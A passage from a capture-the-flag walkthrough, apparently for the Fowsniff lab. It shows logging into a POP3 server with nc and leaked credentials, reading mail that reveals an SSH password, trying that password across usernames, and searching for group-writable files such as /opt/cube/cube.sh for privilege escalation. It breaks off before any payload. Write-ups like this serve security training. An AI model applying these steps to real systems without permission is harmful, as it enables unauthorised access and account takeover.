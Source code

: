 I type:

`nc 10.10.211.152 110`

to login, then `user seina` and `pass scoobydoo2`

```
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
password scoobydoo2
-ERR Unknown command.
pass scoobydoo2
+OK Logged in.
list
```

There are two messages which could be read with `retr`

```
+OK 2 messages:
1 1622
2 1280
```

In first one, there is ssh password

`The temporary password for SSH is "S1ck3nBluff+secureshell"`

while in the second, nothing useful in general except of three user names `devin`  `skyler` and `baksteen`

I tried all and third one works, giving access to machine.

<br />

#### 4. Escalation to root

Our user has no sudo permissions, there are no flags in his folder either. I tought about finding some suid files but it didn't give anything.

According to challenge's questions, I should pay attention in which group user is, so I type `id`  and see that he belongs to `users` 

I thought about finding all files which can be accessed by `users` 

```
baksteen@fowsniff:~$ find / -type f -group users 2>/dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
```

and among lot of rubbish, there is an interesting one `/opt/cube/cube.sh` which we can execute and modify:
